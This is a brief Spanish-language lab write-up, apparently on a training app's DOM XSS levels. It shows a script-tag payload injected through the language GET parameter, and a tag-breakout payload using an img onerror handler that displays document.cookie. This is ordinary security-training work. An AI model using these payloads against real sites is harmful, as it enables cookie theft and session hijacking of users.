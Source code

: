LOW:
La pagina utiliza el metodo GET para seleccionar el idioma.
Cambiando la URL para introducir el paylod --> <script>alert(document.cookie);</script>

MEDIUM:
En el nivel medium los campos del formulario se encuentran dentro de la etiqueta option.
Usando el payload --> " ></option></select><img src=x onerror="alert(document.cookie)"> se sale de la etiqueta para cargar una imagen erronea y que se ejecute codigo al fallar la carga.